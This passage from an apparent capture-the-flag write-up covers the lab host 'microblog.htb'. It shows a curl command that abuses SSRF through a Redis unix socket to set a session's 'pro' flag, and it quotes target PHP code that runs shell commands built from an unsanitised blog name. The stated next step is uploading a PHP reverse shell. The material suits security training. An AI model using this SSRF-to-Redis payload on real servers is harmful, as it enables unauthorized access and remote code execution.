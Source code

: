 After looking through all the code, the 'Pro' user method seems to be the correct way. The ProUser method would allow us to use `bulletproof.php` to upload files, of which we can probably upload some kind of PHP reverse shell and execute it. Now, we need to find out how to manipulate the Redis database to make ourselves Pro.

### Redis Manipulation --> RCE

While researching possible exploits, I found that it was possible to use SSRF to manipulate the Redis database.&#x20;

{% embed url="https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/" %}

It is possible to set our session using SSRF using the HSET command on Redis. We can test this out by using this:

```bash
curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:test123%20pro%20true%20a/b
```

Afterwards, if we create a website, we notice that we can upload Images:

<figure><img src="../../.gitbook/assets/image (43) (9).png" alt=""><figcaption></figcaption></figure>

Great! We are a Pro User and can upload files now. Since we are Pro, this chunk of code would be executed:

```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```
